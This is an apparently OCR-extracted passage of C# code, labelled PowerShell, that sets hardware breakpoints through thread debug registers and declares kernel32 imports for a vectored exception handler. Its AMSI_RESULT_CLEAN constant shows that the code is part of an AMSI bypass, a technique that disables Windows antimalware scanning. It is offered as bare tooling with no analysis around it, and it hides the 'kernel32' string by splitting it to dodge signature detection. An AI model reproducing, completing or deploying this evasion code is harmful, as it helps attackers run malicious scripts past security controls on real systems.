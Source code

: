 ```powershell
        {
            switch (index)
            {
                case 0:
                    ctx.Dr0 = (ulong)address.ToInt64();
                    break;
                case 1:
                    ctx.Dr1 = (ulong)address.ToInt64();
                    break;
                case 2:
                    ctx.Dr2 = (ulong)address.ToInt64();
                    break;
                case 3:
                    ctx.Dr3 = (ulong)address.ToInt64();
                    break;
            }

            //Clearing bits 16-31 in Dr7 to disable existing hardware breakpoints,
            ctx.Dr7 = SetBits(ctx.Dr7, 16, 16, 0);
            //Setting the specific hardware breakpoint for the given index
            ctx.Dr7 = SetBits(ctx.Dr7, (index * 2), 1, 1);
            //Clearing Dr6 to handle hardware breakpoint conditions
            ctx.Dr6 = 0;

            Marshal.StructureToPtr(ctx, pCtx, true);
        }

        // Set specified bits in a ulong value
        public static ulong SetBits(ulong dw, int lowBit, int bits, ulong newValue)
        {
            ulong mask = (1UL << bits) - 1UL;
            dw = (dw & ~(mask << lowBit)) | (newValue << lowBit);
            return dw;
        }
    }

    // WinAPI class containing necessary structures and function signatures
    public class WinAPI
    {
        public const Int32 AMSI_RESULT_CLEAN = 0;
        public const Int32 EXCEPTION_CONTINUE_SEARCH = 0;
        public const Int32 EXCEPTION_CONTINUE_EXECUTION = -1;
        public const UInt32 EXCEPTION_SINGLE_STEP = 0x80000004;

        [DllImport("ke" +"rne" + "l32", SetLastError = true)]
        public static extern bool SetThreadContext(IntPtr hThread, IntPtr lpContext);

        [DllImport("ke" +"rne" + "l32", SetLastError = true)]
        public static extern bool GetThreadContext(IntPtr hThread, IntPtr lpContext);

        [DllImport("ke" +"rne" + "l32", SetLastError = true)]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("ke" +"rne" + "l32", SetLastError = true, CharSet = CharSet.Ansi)]
        public static extern IntPtr LoadLibrary([MarshalAs(UnmanagedType.LPStr)] string lpFileName);

        [DllImport("ke" +"rne" + "l32")]
        public static extern IntPtr AddVectoredExceptionHandler(uint First, IntPtr Handler);

        [Flags]
        public enum CONTEXT64_FLAGS : uint
        {
```